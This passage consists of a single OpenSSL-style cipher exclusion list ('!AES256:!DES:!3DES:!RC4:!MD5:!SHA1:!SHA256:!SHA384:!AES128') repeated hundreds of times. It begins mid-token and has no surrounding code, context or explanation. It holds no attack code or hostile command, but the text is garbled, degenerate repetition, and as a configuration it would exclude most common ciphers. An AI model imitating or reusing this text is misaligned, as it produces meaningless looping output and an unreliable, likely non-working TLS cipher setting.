128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256:!DES:!3DES:!RC4:!MD5:!SHA1:!SHA256:!SHA384:!AES128:!AES256: